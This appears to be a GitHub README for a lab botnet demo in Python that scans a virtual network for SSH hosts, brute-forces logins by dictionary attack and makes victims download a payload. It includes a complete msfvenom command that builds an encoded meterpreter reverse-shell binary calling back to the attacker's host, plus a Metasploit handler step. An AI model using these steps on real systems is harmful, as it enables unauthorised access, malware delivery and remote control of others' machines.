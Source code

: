 # freshBot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh service<br>
running it performs a dictionary attack on it. Once, correct credentials are<br>
provided, 1st payload executes and directs target to download an "evil_file"<br>
from our web server.
<br>
<h1>The Environment Setup</h1><br>
<br>
1. Our Attack machine: **Linux kali 4.16.0-kali2-amd64 **<br>
2. Our Web Server: **192.168.203.1/evil_file**<br>
3. **4** * **ubuntu-16.04.5-desktop-amd64** in the same virtual network.<br>
4. Python - paramiko module.<br>
5. msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file<br>
6. msf5 > exploit/multi/handler module<br>
7. scan_drop.py - Scans, Dictionary Attack, send 1st stage payload, RCE.<br>
